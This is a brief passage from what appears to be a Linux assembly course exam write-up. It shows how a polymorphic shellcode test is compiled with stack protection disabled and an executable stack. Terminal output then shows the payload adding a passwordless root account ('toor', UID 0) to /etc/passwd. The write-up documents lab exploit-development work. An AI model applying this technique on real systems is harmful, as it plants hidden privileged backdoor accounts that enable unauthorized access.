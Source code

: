 ```bash
gcc -fno-stack-protector -z execstack -o test_polymorphic_shellcode test_polymorphic_shellcode.c
```

Once I've run it, I could see a new entry inside the file `/etc/passwd`:

```bash
rbct@slae:~/exam/assignment_6/2$ tail -n 3 /etc/passwd
# landscape:x:104:109::/var/lib/landscape:/bin/false
# sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
# rbct:x:1000:1000:rbct,,,:/home/rbct:/bin/bash

rbct@slae:~/exam/assignment_6/2$ sudo ./shellcode_template 
# Shellcode length: 123

rbct@slae:~/exam/assignment_6/2$ tail -n 3 /etc/passwd
# sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
# rbct:x:1000:1000:rbct,,,:/home/rbct:/bin/bash
# toor::0:0:t00r:/root:/bin/bash

rbct@slae:~/exam/assignment_6/2$ 
```
